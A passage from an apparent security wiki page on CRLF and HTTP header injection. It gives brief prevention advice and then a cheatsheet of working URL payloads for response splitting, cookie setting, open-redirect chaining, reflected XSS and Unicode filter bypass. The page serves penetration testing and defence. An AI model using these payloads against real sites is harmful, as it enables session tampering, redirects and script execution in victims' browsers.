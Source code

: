 Moreover, researchers also discovered that they could desync the memcache responses to send the attackers ip and ports to users whose email the attacker didn't know:

<figure><img src="../.gitbook/assets/image (637).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/c6c1f3c4-d244-4bd9-93f7-2c88f139acfa/body-3f9ceeb9-3d6b-4867-a23f-e0e50a46a2e9_14.png?w=1322&#x26;h=506&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>

### How to Prevent CRLF / HTTP Header Injections in Web Applications

To mitigate the risks of CRLF (Carriage Return and Line Feed) or HTTP Header Injections in web applications, the following strategies are recommended:

1. **Avoid Direct User Input in Response Headers:** The safest approach is to refrain from incorporating user-supplied input directly into response headers.
2. **Encode Special Characters:** If avoiding direct user input is not feasible, ensure to employ a function dedicated to encoding special characters like CR (Carriage Return) and LF (Line Feed). This practice prevents the possibility of CRLF injection.
3. **Update Programming Language:** Regularly update the programming language used in your web applications to the latest version. Opt for a version that inherently disallows the injection of CR and LF characters within functions tasked with setting HTTP headers.

### CHEATSHEET

[Cheatsheet from here](https://twitter.com/NinadMishra5/status/1650080604174667777)

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2 
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
